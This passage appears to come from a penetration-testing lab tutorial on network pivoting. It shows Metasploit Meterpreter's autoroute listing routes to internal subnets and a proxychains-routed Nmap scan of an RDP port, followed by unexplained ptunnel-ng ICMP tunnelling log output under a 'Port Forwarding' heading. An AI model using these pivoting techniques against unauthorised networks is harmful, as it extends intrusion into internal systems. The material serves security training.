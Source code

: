 After adding the necessary route(s) we can use the `-p` option to list the active routes to make sure our configuration is applied as expected.

#### Listing Active Routes with AutoRoute

```shell
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1

```

As you can see from the output above, the route has been added to the 172.16.5.0/23 network. We will now be able to use proxychains to route our Nmap traffic via our Meterpreter session.

#### Testing Proxy & Routing Functionality

```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

```

* * *

## Port Forwarding


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%